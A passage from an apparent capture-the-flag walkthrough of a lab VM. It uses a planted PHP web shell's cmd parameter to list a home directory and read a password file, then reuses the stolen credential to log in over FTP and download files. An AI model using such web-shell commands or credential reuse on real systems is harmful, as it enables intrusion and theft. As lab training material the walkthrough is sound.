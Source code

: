 ```
    drwxr-x--- 3 thor thor 129 Oct 15 2015 thor 
    drwxr-x--- 4 zaz zaz 147 Oct 15 2015 zaz

    // ---

    https://192.168.31.134/forum/templates_c/backdoor2.php?cmd=ls%20-la%20/home/LOOKATME
    total 1 drwxr-x--- 2 www-data www-data 31 Oct 8 2015 . 
    drwxrwx--x 9 www-data root 126 Oct 13 2015 .. -rwxr-x--- 1 www-data www-data 25 Oct 8 2015 password

    // ---

    https://192.168.31.134/forum/templates_c/backdoor2.php?cmd=cat%20/home/LOOKATME/password
    lmezard:G!@M6f4Eatau{sF"
```

We have new login:password combination: `lmezard:G!@M6f4Eatau{sF"`
We will try it everywhere and it works for ftp
- doesn't work on ssh
- inside vm this login:password works
- and works on ftp

## FTP

```
    daniseed@DESKTOP:~$ ftp
    ftp> open
    (to) 192.168.31.134
    Connected to 192.168.31.134.
    220 Welcome on this server
    Name (192.168.31.134:daniseed): lmezard
    331 Please specify the password.
    Password:
    230 Login successful.
    Remote system type is UNIX.
    Using binary mode to transfer files.
    ftp> pass
    Passive mode on.
    ftp> ls
    227 Entering Passive Mode (192,168,31,134,57,125).
    150 Here comes the directory listing.
    -rwxr-x---    1 1001     1001           96 Oct 15  2015 README
    -rwxr-x---    1 1001     1001       808960 Oct 08  2015 fun
    226 Directory send OK.
    ftp> get README
    local: README remote: README
    227 Entering Passive Mode (192,168,31,134,136,22).
    150 Opening BINARY mode data connection for README (96 bytes).
    226 Transfer complete.
    96 bytes received in 0.00 secs (593.3544 kB/s)
    ftp> get fun
    local: fun remote: fun
    227 Entering Passive Mode (192,168,31,134,23,210).
    150 Opening BINARY mode data connection for fun (808960 bytes).
    226 Transfer complete.
    808960 bytes received in 0.08 secs (9.2939 MB/s)
```
